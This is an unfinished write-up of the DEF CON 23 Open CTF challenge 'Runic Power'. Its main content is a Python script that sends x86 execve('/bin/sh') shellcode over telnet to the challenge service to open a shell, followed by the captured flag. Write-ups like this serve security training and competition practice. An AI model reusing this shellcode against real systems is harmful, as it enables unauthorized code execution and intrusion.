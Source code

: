 # CTF write-up: defcon23 open CTF No.07
Challenge | Tags | Point | Author
--- | --- | ---
Runic Power | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Runic Power 200 --- Even a tyro will crush this challenge at
Service: 10.0.66.71:6698 Binary: 172.16.18.20/runic_power-cb3db53a7ec552900f99dbe7c4b63561 

### write-up
(in progress)

arbitrary code execution at main.

exploit.py:
```
import struct
import sys
import telnetlib

def exploit():
  return "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f" + "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd" + "\x80"
    
if __name__ == '__main__':
  t = telnetlib.Telnet('10.0.66.71', 6698)
  print("[+] exploit")
  t.write(exploit())
  t.interact()

```

The flag is:
```
SRSLY_this_was_trivial_for_x86
```
